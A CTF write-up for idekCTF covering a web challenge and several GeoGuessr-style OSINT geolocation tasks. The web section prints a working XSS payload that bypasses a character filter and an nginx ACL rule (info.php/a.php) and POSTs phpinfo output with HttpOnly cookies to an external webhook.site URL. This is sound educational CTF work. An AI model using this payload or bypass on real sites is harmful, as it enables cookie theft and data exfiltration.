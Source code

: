 ```yaml
---
layout: post
title: idekCTF Web and OSINT Writeup
tags: [ctf, ctf writeup, ctf web, ctf misc, ctf osint, ctf geoguessr]
---
```


Notes on solving the web challenge and some GeoGuessr-style challenges (had a lot of luck).

## web/Hello

### Solution TLDR

- Bypass XSS characters filter
- Bypass nginx ACL rules for PHP

### Challenge and Solution

Relatively easy challenge, with 161 solves. I built the payload iteratively to bypass the restrictions.

Challenge goal is to get the flag set by the admin bot in the "HttpOnly" cookie. The `index.php` page is XSS-able, and and `info.php` page dumps `phpinfo()`, which shows the cookies in the request, including HttpOnly cookies.

```nginx
location = /info.php {
    allow 127.0.0.1;
    deny all;
}

location ~ \.php$ {
    root           /usr/share/nginx/html;
    fastcgi_param  SCRIPT_FILENAME  $document_root$fastcgi_script_name;
    include fastcgi_params;  
    fastcgi_pass unix:/var/run/php/php8.2-fpm.sock;
}
```

However, as shown above, `nginx.conf` blocks access to `info.php`, and admin bot cannot acess it either. Referencing to [HackTricks](https://book.hacktricks.xyz/pentesting-web/proxy-waf-protections-bypass), it can be bypassed with `http://idek-hello.chal.idek.team:1337/info.php/a.php`, where nginx does not match to `location = /info.php`, instead it matches to `location ~ \.php$` and PHP FPM processes with `info.php`.

```php
function Enhanced_Trim($inp) {
    $trimmed = array("\r", "\n", "\t", "/", " ");
    return str_replace($trimmed, "", $inp);
}

if(isset($_GET['name']))
{
    $name=substr($_GET['name'],0,23);
    echo "Hello, ".Enhanced_Trim($_GET['name']);
}
```

`index.php` is XSS injectable, however it does not allow some characters. It was not able to have `</script>` closing tag, and I did not get `script` tag without closing tag or using `\` instead of `/` in the closing tag work. I used `<img>` tag with `onerror` to make the script to run (`src` attribute was necessary too).

The tag looks like this:

```html
<img src=a onerror="fetch('\\info.php\\a.php').then(r=>r.text()).then(r=>fetch('https:\\\\webhook.site\\[REDACTED]',{method:'POST',body:r}))">
```

The `/` in the URLs above are replaced with `\` to bypass the filter (`\\` because of escape. It was only escaped once in JavaScript, HTML does not use `/` escape), and it still works.

Replacing space `%20` with `%0C` to bypass filter, and the encoded payload for admin bot is below:

```
http://idek-hello.chal.idek.team:1337/?name=%3Cimg%0Csrc%3Da%0Conerror%3D%22fetch%28%27%5C%5Cinfo%2Ephp%5C%5Ca%2Ephp%27%29%2Ethen%28r%3D%3Er%2Etext%28%29%29%2Ethen%28r%3D%3Efetch%28%27https%3A%5C%5C%5C%5Cwebhook%2Esite%5C%5C%5BREDACTED%5D%27%2C%7Bmethod%3A%27POST%27%2Cbody%3Ar%7D%29%29%22%3E%0A
```

## misc/NM~~PZ~~~ (GeoGuessr-style)

This is some notes on my process of solving some of the challenges with the team (also with a lot of luck involved). It may contain some errors due to limited knowledge on different locations, and just write about observations and knowledge gathered during solving the challenge.

*Image sizes are reduced in the blogpost.*

Some useful resources for GeoGuessr-style challenges:

1. [GeoHints](https://geohints.com/) Categorised by different meta or features, useful for example to look up which country the Google car in the task could be in.

2. [Plonk It](https://www.plonkit.net/guide) Text and image guides categorised by countries. Useful to confirm countries or try to region-guess. Google "site:www.plonkit.net stuff" as example in drunk_driving task below

3. [GeoTips](https://geotips.net/) Similiar to Plonk It

4. [overpass turbo](https://overpass-turbo.eu/) Powerful to query features

5. Many of the shared docs e.g. for country/region specific details

### drunk_driving (medium, Rwanda)

Saw lamppost with "NR 10 166" painted on it.

![Paint on the lamppost in the challenge](/assets/image/idekctf2024/rwanda-lamppost-paint.png)

We could not decide the country to start with through some meta information.

I Googled `site:www.plonkit.net nr`, and it linked to a GeoGuessr guide page on Rwanda. With the road number NR 10, teammate solved the task.

![Screenshot of the Google search result](/assets/image/idekctf2024/nr-google-search-result.png)

### beach_property (medium, Brazil)

Find the very unique-looking building, screenshot and search the image with Google Lens, find it to be the Veleiros Mar hotel in São Luís, Brazil. Then my teammate marked the location on the map to complete this task.

![Screenshot of Veleiros Mar hotel in the challenge](/assets/image/idekctf2024/veleiros-mar.png)

### idek_islands (medium, U.S. Virgin Islands)

Teammates identified through meta (Google car etc.) the location is in U.S. Virgin Islands, and likely to be in the island in the north. The location is by the coast, with coastline kinda concaves, and with buildings nearby. The shadows points inwards the land.

I started searching through the south coast of the two main islands in the north of U.S. Virgin Islands, by looking at the street view coverage finding the roads close to coast, and sometimes enter into street view to check. Eventually found a road with street view coverage near the coast, and the buildings in the satellite view looks matching the ones in the image. It did not take too long. Entered street view and confirmed the location matches.

### rise_above (hard, Indonesia)

It took a long time to solve this one.

Teammates identified the location in in Indonesia. There is top of a church in the image, signs on the other building saying "RUMAH KEPALA JAGA 1", and teammate also identified the "Indonesian Democratic Party of Struggle" flag in the image.

I position Google maps at Indonesia and looked up "rumah kepala jaga", it showed the name with other numbers but not "1". I looked through some of the locations however non of them was the location. They were mostly located east-most of Sulawesi Utara on one of the main island. There were also a village with many of the same flags in the image, however that village had a church looked different. Then I zoomed out the map a bit and looked up "church" in the area, and the 2nd church I clicked on and entered street view to see was the church I was looking for (extremely lucky I guess).
